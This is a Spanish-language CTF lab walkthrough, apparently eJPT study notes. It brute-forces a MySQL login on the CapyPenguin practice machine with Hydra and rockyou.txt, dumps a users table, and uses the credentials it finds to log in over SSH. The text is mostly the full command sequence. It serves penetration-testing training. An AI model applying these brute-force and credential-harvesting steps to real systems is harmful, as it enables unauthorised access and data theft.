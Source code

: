 
---
- TAG: #Ataques #Bases-de-datos #Fuerza-Bruta 
---
# Ataques de Fuerza Bruta a Bases de Datos MySQL con Hydra

En esta clase, aprenderemos a realizar ataques de fuerza bruta a bases de datos MySQL utilizando la herramienta **Hydra**. Vamos a practicar con la máquina **CapyPenguin**, que se encuentra en los siguientes recursos:

- [Máquina CapyPenguin](https://drive.google.com/file/d/1kJsjmttn7McRuj8Tx71ootLMnTnaIWo4/view)
- [CTF Comunidad Hacking Ético](https://ctf.comunidadhackingetico.es/challenges?category=medio)

## Preparativos

1. **Descargar y Configurar la Máquina:**
   - Descargamos el archivo `.ova` de la máquina **CapyPenguin**.
   - Damos doble clic en el archivo para importarlo a VirtualBox.
   - Verificamos que la configuración de red esté en "Adaptador puente".
   - Iniciamos la máquina.

2. **Localizar la Máquina:**
   - Realizamos un escaneo para encontrar la IP de la máquina víctima:
     ```bash
     arp-scan -I wlan0 --localnet
     ```
   - Comprobamos la conectividad con un `ping`.
   - Escaneamos los puertos con **nmap**:
     ```bash
     nmap -p- -sS -sC -sV --open --min-rate=5000 -v -n -Pn 1.2.3.4
     ```
   - Identificamos que el puerto **3306** está abierto, que comúnmente es utilizado por **MySQL**.

## Encontrar el Usuario y Contraseña para MySQL

1. **Buscar Información en la Página Web:**
   - El puerto **80** está abierto, así que investigamos la página web.
   - Encontramos un mensaje en el código fuente que indica un posible usuario:
```html
<p>hola<strong>capybarauser</strong>, esta es una web de capybaras.</p>
```

2. **Ataque de Fuerza Bruta con Hydra:**
   - Utilizamos **Hydra** para realizar el ataque de fuerza bruta en el puerto **3306**:
```bash
hydra -l capybarauser -P /usr/share/wordlists/rockyou.txt mysql://1.2.3.4 ```

   - Si **Hydra** tarda mucho en encontrar la contraseña, es posible que esté al final del archivo `rockyou.txt`. Para acelerar el proceso, invertimos el archivo:
     ```bash
     tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
     ```

   - Eliminamos espacios y caracteres no legibles:
     ```bash
     cat rockyou_invertido.txt | tr -d ' ' > diccionario_sin_espacios.txt
     ```

   - Ejecutamos el ataque de fuerza bruta nuevamente con el diccionario modificado:
     ```bash
     hydra -l capybarauser -P diccionario_sin_espacios.txt mysql://1.2.3.4
     ```

3. **Acceso a la Base de Datos MySQL:**
   - Con la contraseña encontrada, accedemos a MySQL:
     ```bash
     mysql -h 1.2.3.4 -u capybarauser -p<contraseña>
     ```
   - En nuestro caso:
     ```bash
     mysql -h 1.2.3.4 -u capybarauser -pie168
     ```

## Exploración de la Base de Datos

1. **Mostrar las Bases de Datos:**
   ```mysql
   show databases;
   ```

2. **Seleccionar la Base de Datos de Interés:**
   ```mysql
   use pinguinasio_db;
   ```

3. **Mostrar las Tablas:**
   ```mysql
   show tables;
   ```

4. **Consultar las Columnas en la Tabla `users`:**
   ```mysql
   SELECT * FROM users;
   ```

   - Encontramos posibles usuarios y contraseñas en la tabla.

## Acceso a la Máquina a través de SSH

1. **Acceder con las Credenciales Encontradas:**
   - Si encontramos las siguientes credenciales:
     - Usuario: `mario`
     - Contraseña: `pinguinomolon123`
   - Accedemos a la máquina mediante SSH:
     ```bash
     ssh mario@1.2.3.4
     ```
   - Ingresamos la contraseña cuando se nos solicite y ya estaremos dentro de la máquina.

---

Con estos pasos, podrás realizar ataques de fuerza bruta a bases de datos MySQL utilizando **Hydra** y explorar las bases de datos para encontrar credenciales adicionales. Esta es una habilidad valiosa para el examen **eJPT** y para tus prácticas en ciberseguridad. ¡Buena suerte!

